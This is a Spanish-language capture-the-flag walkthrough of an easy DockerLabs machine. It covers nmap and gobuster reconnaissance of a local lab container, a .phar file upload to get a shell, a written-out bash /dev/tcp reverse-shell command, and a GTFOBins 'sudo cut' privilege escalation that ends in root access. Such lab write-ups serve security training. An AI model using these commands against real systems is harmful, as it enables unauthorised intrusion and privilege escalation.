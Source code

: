 

![DockerLabs](https://dockerlabs.es/images/logos/logo.png)

**Autor:** [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

**Dificultad:** Fácil

**Fecha de creación:** 17/07/2024

--------------------------------------
Despliegue

```
bash auto_deploy.sh dockerlabs.tar
```

![](BLOG-GIT/images/Pasted%20image%2020250126152356.png)

Y ahí tenemos la ip de nuestra máquina víctima: 

```
172.17.0.2
```

-----------------------------------------------
Reconocimiento 

Hacemos un mapeo con nmap para ver los puertos abiertos. 

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```


![](BLOG-GIT/images/Pasted%20image%2020250126152705.png)

Vemos el puerto 80 que está abierto. Por lo que nos vamos a la web y vemos a ver qué hay. 

Vemos lo siguiente:

![](BLOG-GIT/images/Pasted%20image%2020250126152828.png)

Como vemos no hay nada que nos revele algo de información en la web por lo que haríamos es fuzzing web. 

```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

Usamos gobuster y nos devuelve por consola lo siguiente: 

![](BLOG-GIT/images/Pasted%20image%2020250126153330.png)

Nos sale una ruta por la que posiblemente se suban archivos por otra ruta. 

Lo que podemos es añadir a nuestro gobuster unas extensiones:

```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,html,py
```

Y nos sale lo siguiente:

![](BLOG-GIT/images/Pasted%20image%2020250126153751.png)

Y aquí tenemos algo jugoso. 

![](BLOG-GIT/images/Pasted%20image%2020250126153851.png)

Aquí podría subirse al directorio uploads. 

Intentamos crear un payloads con msfvenom pero nos dice lo siguiente:

![](BLOG-GIT/images/Pasted%20image%2020250126154611.png)

![](BLOG-GIT/images/Pasted%20image%2020250126155108.png)

Nos vamos al directorio /uploads

Y aquí tenemos nuestro archivo .phar

![](BLOG-GIT/images/Pasted%20image%2020250126155232.png)

Nos ponemos a la escucha con netcat. 

```
nc -nlvp 443
```

![](BLOG-GIT/images/Pasted%20image%2020250126155423.png)

y le damos al archivo. 

![](BLOG-GIT/images/Pasted%20image%2020250126155502.png)

Pondremos el siguiente comando para estar más estable. Pero antes debemos de estar en la escucha por el puerto 444 o cualquier otro. 

```
bash -c "bash -i >& /dev/tcp/"tu ip"/444 0>&1"
```

![](BLOG-GIT/images/Pasted%20image%2020250126162525.png)

Y ahora estamos algo más estable. 

Y ahora haremos un tratamiento de la tty.

![](BLOG-GIT/images/Pasted%20image%2020250126162717.png)

Ya estamos algo más estable. 

Para ver si podemos escalar privilegio usamos sudo -l 

![](BLOG-GIT/images/Pasted%20image%2020250126162950.png)

Vemos que tenemos acceso como sudo a unos binarios. 

Nos vamos a GTFObins y podemos ver como explotar estos binarios. 

```
LFILE=file_to_read
sudo cut -d "" -f1 "$LFILE"
```

nos vamos al directorio /opt
Y ejecutamos el comando: 

![](BLOG-GIT/images/Pasted%20image%2020250126163711.png)

Hemos obtenido la clave. 

Así que podemos entrar como root. 


